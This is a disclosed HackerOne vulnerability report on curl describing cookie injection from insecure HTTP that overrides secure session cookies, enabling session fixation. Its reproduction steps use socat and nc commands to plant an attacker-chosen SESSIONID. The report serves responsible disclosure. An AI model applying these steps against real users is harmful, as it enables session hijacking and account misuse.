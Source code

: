 # Cookie injection from non-secure context

## Report Details
- **Report ID**: 1560324
- **URL**: https://hackerone.com/reports/1560324
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-05-05T17:48:16.396Z
- **Disclosed**: 2022-05-13T06:44:08.351Z

## Reporter
- **Username**: nyymi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: curl

## Vulnerability Information
## Summary:

Curl allows injecting cookies over insecure HTTP connection that will then be sent to the target site when connecting over HTTPS.

As documented in lib/cookie.c https://github.com/curl/curl/blob/a04f0b961333e1a19848d073d8c7db9c20b2a371/lib/cookie.c#L1039 this should not be possible:
```
            /*
             * A non-secure cookie may not overlay an existing secure cookie.
             * For an existing cookie "a" with path "/login", refuse a new
             * cookie "a" with for example path "/login/en", while the path
             * "/loginhelper" is ok.
             */
```

This will allow session fixation (CWE-384) attack where the attacker replaces the session of the victim with their own. If the victim performs for example upload operations the upload will be sent to the account controlled bit he attacker.

This attack requires that the application in question does or  can be coaxed to make accesses to the same host over insecure HTTP connection. The attacker needs to either perform Man in the Middle attack to these insecure connections, or be able to host a HTTP server on another port on the same host.

## Steps To Reproduce:
1. Set up a HTTPS server that will respond to requests setting the SESSIONID cookie. This simulates the victim accessing the site normally. Note that the cookie has *secure* attribute:
 ```
echo -ne "HTTP/1.1 200 OK\r\nSet-Cookie: SESSIONID=victimstoken; secure\r\nContent-Length: 0\r\n\r\n" | socat STDIN OPENSSL-LISTEN:9999,commonname=somesite.tld,reuseaddr,verify=0,key=privkey.pem,cert=fullchain.pem
 ```

2. Access the site with curl to simulate a victim login:
 ```
 curl -c cookies.txt -b cookies.txt https://somesite.tld:9999/
 ```

3. Simulate the attacker either performing a MitM attack or being able to host HTTP on another port on the same host:

 ```
 echo -ne "HTTP/1.1 200 OK\r\nSet-Cookie: SESSIONID=hackerstoken; domain=somesite.tld\r\nContent-Length: 0\r\n\r\n" | nc -v -l -p 3333
 ```

4. Simulate the victim visiting the attacker controlled content:

 ```
 curl -c cookies.txt -b cookies.txt http://somesite.tld:3333/
 ```

5. Start HTTPS server that will dump the Cookie headers sent by libcurl:
 ```
 socat OPENSSL-LISTEN:9999,commonname=somesite.tld,reuseaddr,verify=0,key=privkey.pem,cert=fullchain.pem STDOUT
 ```

6. Simulate the victim accessing the target site again:
  ```
 curl -c cookies.txt -b cookies.txt https://somesite.tld:9999/
 ```

The following cookies are now sent by curl:
`Cookie: SESSIONID=victimstoken; SESSIONID=hackerstoken`

The order the cookies appears to depend on the order of the lines in cookie store. Depending on how the victim site interpreted the multiple SESSIONID cookies the attacker may want to try to inject the cookie before login by the victim, or after the login.

After successful attack the cookie.txt looks like this:
```
# Netscape HTTP Cookie File
# https://curl.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

.somesite.tld    TRUE    /       FALSE   0       SESSIONID       hackerstoken
somesite.tld     FALSE   /       TRUE    0       SESSIONID       victimstoken
```

This is CWE-384: Session Fixation.

## Impact

Cookie injection leading to CWE-384: Session Fixation and/or other similar attacks.

## Attachments
No attachments
